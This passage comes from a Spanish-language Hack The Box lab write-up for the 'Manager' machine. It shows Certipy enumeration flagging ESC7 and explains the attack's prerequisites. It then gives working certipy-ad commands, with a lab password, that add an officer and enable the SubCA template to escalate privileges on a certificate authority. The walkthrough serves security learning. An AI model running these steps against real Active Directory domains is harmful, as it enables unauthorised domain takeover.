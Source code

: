 ```jsx
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates

```

Aunque el ataque a ESC7 no está especificado en la guía de GOAD, podemos seguir la guía de  [Oliver Lyak](https://twitter.com/ly4k_?lang=es){:target="_blank"} con su herramienta Certipy-AD y la guía para el ataque a  [ESC7](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7){:target="_blank"} 

**`Requisitos previos`**

Para que esta técnica funcione, es necesario que el usuario tenga el derecho de acceso "Gestionar Certificados" y que la plantilla de certificado SubCA esté habilitada. Esto se puede lograr teniendo el derecho de acceso "Gestionar CA".

La técnica se basa en que los usuarios con los derechos de acceso "Gestionar CA" y "Gestionar Certificados" pueden emitir solicitudes de certificados fallidas. La plantilla de certificados SubCA es vulnerable a ESC1, pero solo los administradores pueden inscribirse en la plantilla. Por lo tanto, un usuario puede solicitar inscribirse en la SubCA, lo que será denegado, pero un administrador puede emitirlo después.

Si solo se dispone del derecho de acceso "Gestionar CA", se puede otorgar el derecho de acceso "Gestionar Certificados" agregando al usuario como nuevo administrador.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/certipy]
└─# certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

La plantilla SubCA puede habilitarse en la CA con el parámetro **`-enable-template`**. Por defecto, la plantilla SubCA está habilitada.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/certipy]
└─# certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'

```

Si se han cumplido los requisitos previos para este ataque, se puede comenzar solicitando un certificado basado en la plantilla SubCA. Aunque esta solicitud será denegada, se guarda la clave privada y se anota el ID de la solicitud.
